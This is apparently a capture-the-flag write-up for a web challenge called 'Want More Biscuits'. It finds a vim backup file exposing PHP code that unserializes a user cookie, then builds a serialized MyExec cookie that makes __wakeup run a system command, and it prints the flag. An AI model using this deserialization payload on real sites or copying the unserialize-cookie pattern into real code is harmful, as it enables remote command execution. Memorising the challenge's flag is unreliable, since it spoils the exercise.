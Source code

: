 # Want More Biscuits

- Level: hard
- Points: 200
- Category: Web

All we know in the begining is that the author of the website loves vim, so immediately we're looking for backups of the source code created automatically by vim. After a few tries, we find one under the name `index.php~`

```php
<?php
// I love PHP.
class User {
        public $userName = 'anonymous';
}

class MyExec {
    public $command = "ls";
    public functin __wakeup()
    {
        system($this->command);
    }
}

$cookie_name = "userCookie";
$u = new User();
$cookie_value = base64_encode(serialize($u));
setcookie($cookie_name, $cookie_value, time() + (86400 * 30), "/"); // 86400 = 1 day

if(!isset($_COOKIE[$cookie_name])) {
        echo "Sorry something went wrong.";
} else {
        $u = unserialize(base64_decode($_COOKIE[$cookie_name]));
}

?>
```
We have an object injection through the cookie because of this line `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));`  and we are looking to trigger the `__wakeup()` method of the `MyExec` class, which means we have to trigger a seralization of an instance of `MyExec` through the injection.

# Solution

We use this script to generate the cookie
```php
<?php
class MyExec {
    public $command = "ls";
    public function __wakeup() {
        system($this->command);
    }
}

print urlencode(base64_encode(serialize(new MyExec())));
?>
```

At runtime `$u = unserialize(base64_decode($_COOKIE[$cookie_name]));` will become `$u = unserialize(serialize(new MyExec()));` and the `__wakeup()` method will trigger, executing ls.

![Imgur](https://i.imgur.com/5Fo17hN.png)

We then access the `Flag_FGRRDAKKUGBSKKIUHDLLMNEJDK.txt` directory and find the flag.

![Imgur](https://i.imgur.com/lvkw0HN.png)

# Flag

`FLAG{GOD_DAMN_SERIALIZE}`
